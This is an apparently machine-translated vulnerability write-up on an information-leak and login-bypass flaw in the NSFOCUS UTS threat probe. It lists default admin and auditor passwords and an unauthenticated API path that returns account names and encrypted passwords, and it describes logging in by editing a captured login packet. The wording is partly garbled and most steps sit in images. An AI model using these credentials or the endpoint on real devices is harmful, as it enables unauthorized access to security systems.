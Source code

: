 # Green Alliance UTS Comprehensive Threat Probe Information Leakage Login Bypass Vulnerability

## Vulnerability Description

Green Alliance UTS Comprehensive Threat Probe An interface is not authorized, resulting in an unauthorized vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Green Alliance UTS Comprehensive Threat Probe </span>

## Network surveying and mapping



## Vulnerability reappears

Default password

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">admin/Nsfocus@123</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">auditor/auditor</span>

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628385388371-8c2d0646-c565-4233-b44e-02cb22b7eb37.png)

Verify POC

```php
/webapi/v1/system/accountmanage/account
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628385427610-3bc1805a-ebb0-4c88-9390-3244af8fe381.png)

Here are the logged-in account and encrypted PASS

When logging in, you can log in to the system by modifying the packet capture field to get it.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628386133132-32cc96fd-6816-4c83-a753-78d6f30dfaf6.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628386108554-9d4b5304-cb43-4a67-80b8-a00544149d48.png)